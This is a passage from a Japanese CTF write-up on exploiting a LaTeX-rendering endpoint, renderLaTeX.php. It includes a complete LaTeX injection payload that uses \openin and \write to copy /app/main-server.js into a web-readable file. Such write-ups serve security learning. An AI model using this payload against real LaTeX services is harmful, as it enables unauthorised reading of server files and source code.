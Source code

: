 これを送ると、レスポンスとして以下の画像が得られました。

![Alt text](./images/2023-12-potluck-santify-5.png)

`/app` に `main-server.js` が存在することがわかりました。この時点では予想に過ぎませんが、これが `renderLaTeX.php` を提供しているサーバの実体だと考えられます。

次に、`/app/main-server.js` の内容を取得することを目指します。
これまでと同様に `\input` を使ってやれば良いように思えますが、JavaScript ファイル内には `{` や `}` などの記号が大量に使用されており、エスケープすることが困難でした (コンテスト中にはそのような方法は見つけられませんでした)。

別のアプローチとして、以下の文字列を `renderLaTeX.php` に送ることで `/images/<ランダムな文字列>/foo.txt` に `/app/main-server.js` の内容を書き出すことができます。この `ランダムな文字列` はレスポンスされる画像ファイルの `src` から確認することができます。

```latex
1+1$

\newwrite\myfile
\immediate\openout\myfile=foo.txt
\newread\inputfile
\openin\inputfile=/app/main-server.js
\loop\unless\ifeof\inputfile
    \read\inputfile to \fileline
    \immediate\write\myfile{\fileline}
\repeat
\closein\inputfile
\immediate\closeout\myfile

$1+1
```

![](./images/2023-12-potluck-santify-4.png)

`foo.txt` にアクセスすると、以下の JavaScript コードが出力されていました (一部抜粋)。
